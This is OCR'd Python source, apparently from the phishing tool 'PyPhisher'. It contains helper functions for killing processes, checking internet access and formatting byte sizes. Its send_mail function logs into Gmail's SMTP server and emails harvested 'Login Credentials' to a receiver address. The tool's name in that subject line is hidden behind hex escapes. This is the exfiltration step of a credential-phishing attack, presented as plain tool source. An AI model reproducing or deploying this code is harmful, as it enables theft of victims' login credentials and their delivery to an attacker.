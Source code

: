 
# Process killer
def killer():
    # Previous instances of these should be stopped
    for process in processes:
        if is_running(process):
            # system(f"killall {process}")
            output = shell(f"pidof {process}", True).stdout.decode("utf-8").strip()
            if " " in output:
                for pid in output.split(" "):
                    kill(int(pid), SIGINT)
            elif output != "":
                kill(int(output), SIGINT)
            else:
                print()

# Internet Checker

def internet(url="https://api.github.com", timeout=5):
    while update:
        try:
            head(url=url, timeout=timeout)
            break
        except ConnectionError:
            print(f"\n{error}No internet!{nc}\007")
            sleep(2)
        except Exception as e:
            print(f"{error}{str(e)}")

        
# Send mail by smtp library
def send_mail(msg):
    global email, password, receiver
    message = f"From: {email}\nTo: {receiver}\nSubject: \x50\x79\x50\x68\x69\x73\x68\x65\x72 Login Credentials\n\n{msg}"
    try:
        internet()
        with smtp('smtp.gmail.com', 465) as server:
            server.login(email, password)
            server.sendmail(email, receiver, message) 
    except Exception as e:
        append(e, error_file)
        print(f"{error}{str(e)}")



# Bytes to KB, MB converter
def readable(byte, precision = 2, is_speed = False):
    for unit in ["Bt","KB","MB","GB"]:
        floatbyte = round(byte, precision)
        space = ' ' * (6 - len(str(floatbyte)))
        if byte < 1024.0:
            if is_speed:
                size = f"{floatbyte} {unit}/s{space}"
            else:
                size = f"{floatbyte} {unit}{space}"
            break
        byte /= 1024.0
